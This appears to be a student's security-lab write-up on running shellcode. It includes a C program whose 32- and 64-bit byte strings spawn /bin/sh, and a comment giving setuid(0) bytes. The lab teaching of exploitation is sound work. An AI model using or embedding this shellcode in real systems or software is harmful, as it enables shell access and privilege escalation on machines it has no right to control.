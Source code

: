 # Work on week #5

## Tasks done

### 1

* The main goal of this task is to understand how to run shellcode and take advantage of it as an attacker.

* We can create shellcode in 2 different versions- in 32 or 64 bits. The main difference between them are the name and number of the registers used on the programs.

* In order to complete this task, we had to compile these file (call_shellcode.c), with the command ```make all```, which will generate the 2 runnable versions:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

// Binary code for setuid(0) 
// 64-bit:  "\x48\x31\xff\x48\x31\xc0\xb0\x69\x0f\x05"
// 32-bit:  "\x31\xdb\x31\xc0\xb0\xd5\xcd\x80"


const char shellcode[] =
#if __x86_64__
  "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
;

int main(int argc, char **argv)
{
   char code[500];

   strcpy(code, shellcode);
   int (*func)() = (int(*)())code;

   func();
   return 1;
}

```

*  This file pushes store those registers to the code variable and make the pointers to those registers (made by the ```func()```), according to the respective version (32 or 64 bits). Those registers address to the assembly commands needed to execute a shell.
